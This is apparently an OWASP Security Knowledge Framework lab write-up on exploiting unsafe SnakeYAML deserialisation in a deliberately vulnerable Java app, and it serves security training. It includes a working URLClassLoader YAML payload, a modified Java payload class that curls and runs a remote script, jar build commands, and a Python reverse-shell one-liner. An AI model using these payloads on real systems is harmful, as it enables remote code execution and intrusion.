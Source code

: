 # Deserialisation Yaml

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-des-yaml
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-des-yaml
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

This application is using a yaml serialised object to display the content in the HTML. As you can see below, the default base64 encoded string is loaded as part of the URL.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/DES-YAML/1.png)

By Base64 decoding you can see it uses a key value pair -> foo : value

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/DES-YAML/2.png)

Also we can have a look at the documentation of the Python implementation for the .yaml file here:

{% embed url="https://yaml.readthedocs.io/en/latest/detail.html" %}

The application works by loading the Base64 encoded string to be processed by the application and use YAML to parse parse the key value to display the content in the application as shown below.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/DES-YAML/3.png)

In the code example the _input_ URL parameter is used to read the input value but as you can see this is under the users control. Instead of just sending the intended text over the request, a potential attacker could abuse this function to also supply his own crafted yaml that the attacker controls.

```python
    @GetMapping("/config/{input}")
    public String input(@PathVariable String input, Model model) {
        byte[] decodedInputBytes = Base64.getDecoder().decode(input);
        String decodedString = new String(decodedInputBytes);
        Yaml yaml = new Yaml();
        Object obj = yaml.load(decodedString);     
        model.addAttribute("content",obj.toString());
        return "index.html";
      }
```

## Exploitation

### Step 1

A potential attacker can now tamper the Base64 encoded yaml parameter that will be parsed by the application.

Let's try to craft or own yaml object and check whether the application will accept it or not.

```yaml
yaml: knoot knoot
```

Encode it in Base64 and put it in place the original yaml object.

```
eWFtbDoga25vdCBrbm9vb3QK
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/DES-YAML/4.png)

As you can see our yaml object was accepted and parsed by the application.

When we will search on Java Yaml injections on the Internet we will learn that it's possible in Yaml and the Java implementation to invoke a subprocess that will allow us to execute commands. To perform this type of attack we need to use the following key value pair in our evil.yml file.

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://0.0.0.0:80"]
  ]]
]
```

Base64:

```
ISFqYXZheC5zY3JpcHQuU2NyaXB0RW5naW5lTWFuYWdlciBbCiAgISFqYXZhLm5ldC5VUkxDbGFzc0xvYWRlciBbWwogICAgISFqYXZhLm5ldC5VUkwgWyJodHRwOi8vMC4wLjAuMDo4MCJdCiAgXV0KXQ==
```

Now when we submit the new yaml object we can see it launched HTTP request to destionation and we observed this outbound request on our web server. 

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/DES-YAML/5.png)

Let's try getting a revershell!

We can use this [Java Yaml Payload Project](https://github.com/artsploit/yaml-payload) for generating payloads for the SnakeYAML deserialization to run commands on the target server.

We should alter the project as below so that it will run commands on the target server.
```
    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("curl http://192.168.13.131:1234/revshell.sh -o /tmp/revshell.sh");
            Runtime.getRuntime().exec("bash /tmp/revshell.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```

After the changes, build the project and generate malicious .jar file to be executed by the target application

```
#Build:
javac <PATH>/yaml-payload/src/artsploit/AwesomeScriptEngineFactory.java
```
```
#Generate Jar:
jar -cvf yaml-payload.jar -C <PATH>src/ .
```

The content of the revshell.sh is given below;
```
#!/bin/bash

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.13.131",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Please! change IP:Port according to your setup before usage.

The setup is ready and let's execute the attack...

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/DES-YAML/6.png)

## Additional sources

{% embed url="https://www.owasp.org/index.php/Deserialization_Cheat_Sheet#Python" %}
